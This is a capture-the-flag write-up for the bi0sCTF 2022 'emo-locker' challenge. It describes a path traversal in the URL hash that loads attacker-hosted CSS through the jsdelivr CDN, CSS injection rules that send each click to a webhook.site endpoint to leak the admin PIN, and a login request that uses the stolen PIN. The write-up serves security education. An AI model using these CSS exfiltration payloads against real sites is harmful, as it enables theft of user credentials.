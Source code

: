 # bi0sCTF-2022-emo-locker

![image](https://user-images.githubusercontent.com/14858959/214005352-76bf81ac-38ec-45c6-9b63-bdf036cb0130.png)


The first thing we identify is that the app is taking a value from the URL without filtering it and use it to load CSS code.
![image](https://user-images.githubusercontent.com/14858959/214001671-b508e6a2-23e2-4f8f-9df0-80f4bf4cf5da.png)

We can exploit this by inserting on the URL our custom hash, pointing to our malicious code:
```
https://cdn.jsdelivr.net/npm/darkmode-css@1.0.1/xxxxxxx-mode.css
```
By visiting `http://web.chall.bi0s.in:10101/#../../gh/GramThanos/github_repo_here@github_commit_here/malicious.css?` the CSS that the page will load will be:
```
https://cdn.jsdelivr.net/gh/GramThanos/github_repo_here@github_commit_here/malicious.css?-mode.css
```

Note 1: The jsdelivr CDN apart from access to NPM modules also can give access to GitHub projects. Thus we can deliver our code through GitHub. Note that since jsdelivr is caching our files, it is best to point to specific commits when we deliver payloads.

Note 2: Notice that we used the a path traversal here to change to a different project.

Note 3: Notice that we used a `?` at the end of the provided hash value so that the URL filename does not include the `-mode.css` part. Alternatively we could have renamed our payload file to `malicious-mode.css` to bypass this limitation.

Since the code is in CSS, we will have to detect the user actions (click) using CSS. This is done by creating a request on each action and monitoring the requests. Normaly to do that you add background image requests on actions such as "hover", "focus", "active", but here since the client is a bot, such mouse events where not working.

First we added an instant request to verify that our code was working:
```css
body {background-image: url('https://webhook.site/8566bcb8-ed2f-468c-8ad3-d587c2494428?i=loaded');}
```
![image](https://user-images.githubusercontent.com/14858959/214003245-2a86c85d-6a05-4b9e-b322-7a379ca1ebf4.png)

Then by observing the page changes on each interaction with the emojies, we identified that on each click, the emoji was removed, leaving the button empty from content... thus after some searching we identified that the `:empty` CSS selector that could be used to detect/fire our events.
For example, for the first emoji (with id 1) we had the following CSS code (we had to generate a differenct CSS code for each emoji):
```css
span[role=img][aria-label="1"]:empty {background: url('https://webhook.site/8566bcb8-ed2f-468c-8ad3-d587c2494428?i=1');}
```

We send the link `http://web.chall.bi0s.in:10101/#../../gh/GramThanos/bi0sCTF-2022-emo-locker@53e70828379f3826a4213dd952307526b4a4707a/malicious.css?` to the bot. And we got the click events:
![image](https://user-images.githubusercontent.com/14858959/214003788-0a64022e-8195-4d0f-9edb-a745e7eea470.png)
By instecting the events from the first to the last one we tritrieved the admin password:
```
[51, 32, 73, 34, 85, 126, 17, 158, 79, 50]
``` 

We make to request to login:
```javascript
fetch("http://web.chall.bi0s.in:10101/api/login", {
  "headers": {
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9,el;q=0.8",
    "cache-control": "no-cache",
    "content-type": "application/json",
    "pragma": "no-cache"
  },
  "referrer": "http://web.chall.bi0s.in:10101/?",
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": "{\"username\":\"admin\",\"pin\":[51, 32, 73, 34, 85, 126, 17, 158, 79, 50]}",
  "method": "POST",
  "mode": "cors",
  "credentials": "omit"
});
```
![image](https://user-images.githubusercontent.com/14858959/214001505-7888f7ef-10a7-4b46-9e3a-a8d7842a884d.png)


The flag is returned as a cookie:
![image](https://user-images.githubusercontent.com/14858959/214001253-0ba31965-9e3d-4bda-9ed4-f1a4083ccb0c.png)
